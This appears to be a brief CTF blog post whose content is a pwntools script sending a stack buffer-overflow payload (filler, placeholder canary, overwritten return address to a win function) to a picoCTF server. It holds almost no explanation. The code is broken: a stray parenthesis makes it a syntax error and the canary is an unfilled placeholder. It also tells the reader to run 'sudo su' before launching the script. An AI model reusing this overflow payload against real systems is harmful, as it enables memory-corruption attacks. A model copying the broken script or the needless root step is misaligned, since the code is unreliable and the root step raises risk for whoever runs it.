 ```yaml
---
layout: post
title: "Post 2"
date: 2024-03-17
categories: CTF
tags: [web-exploitation, reverse-engineering]
author: sam
img_path: ./assets/img/posts
---
```


Another post. 

> Passwords are good!
{: .prompt-tip }

```python
from pwn import *


host, port = "saturn.picoctf.net", 52235
conn = remote(host, port)

)
buffer_size = 64
canary = "AAAA"  # Replace with the actual canary value
win_address = p32(0x5655625d)  # p32 converts the address to little-endian


payload = b"A" * buffer_size  # Fill the buffer
payload += canary.encode()    # Add the canary
payload += b"B" * 4           # Padding between the canary and the return address
payload += win_address        # Overwrite the return address with the win function address

# Send the payload
conn.sendline(payload)


try:
    response = conn.recvall()
    print(response)
except EOFError:
    print("Received EOFError, which may indicate a failed exploit or closed connection.")


conn.close()


```

```shell
sudo su
python3 payload_script.py

```
{: .nolineno }




![The Lock](gg.webp){:style="display:block; margin-left:auto; margin-right:auto; width:50%;"}
